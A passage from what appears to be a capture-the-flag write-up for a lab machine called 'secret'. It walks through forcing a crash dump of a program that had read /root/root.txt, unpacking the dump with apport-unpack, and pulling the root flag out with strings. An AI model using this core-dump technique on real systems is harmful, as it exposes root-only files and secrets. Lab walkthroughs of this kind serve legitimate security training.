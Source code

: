 Leave it there at the save point and switch to the second shell, look at the processes running:

```text
dasith@secret:~/local-web$ ps -aux | grep count
ps -aux | grep count
root         821  0.0  0.1 235672  7420 ?        Ssl  17:18   0:00 /usr/lib/accountsservice/accounts-daemon
dasith     96020  0.0  0.0   2488   524 pts/9    S+   22:44   0:00 ./count -p
dasith     96026  0.0  0.0   6432   740 ?        S    22:45   0:00 grep --color=auto count
```

Kill the process for count:

```text
dasith@secret:~/local-web$ kill 96020
kill 96020
```

Now unpack the coredump so we can look at it:

```text
dasith@secret:/opt$ cd /var/crash

dasith@secret:/var/crash$ ls -l
-rw-r----- 1 root   root   27203 Oct  6 18:01 _opt_count.0.crash
-rw-r----- 1 dasith dasith 28006 Nov 18 21:40 _opt_count.1000.crash
-rw-r----- 1 root   root   24048 Oct  5 14:24 _opt_countzz.0.crash

dasith@secret:/var/crash$ mkdir /dev/shm/pencer

dasith@secret:/var/crash$ apport-unpack _opt_count.1000.crash /dev/shm/pencer

dasith@secret:/var/crash$ cd /dev/shm/pencer

dasith@secret:/dev/shm/pencer$ ls
<SNIP>
CoreDump
<SNIP>
```

## Root Flag

We can now use strings too look at the contents of the CoreDump file:

```text
dasith@secret:/dev/shm/pencer$ strings CoreDump
strings CoreDump
<SNIP>
Enter source file/directory name:
%99s
Save results a file? [y/N]: 
Path: 
Could not open %s for writing
:*3$"
Save results a file? [y/N]: words      = 2
Total lines      = 2
/root/root.txt
ed72112dc7721f564f49b6846a2f0e22
```

The output is really long but you can spot the count file output within it and see the contents of the root flag that had been read in.

I thought that was pretty tricky for an easy box. I hope you enjoyed it.

See you next time.
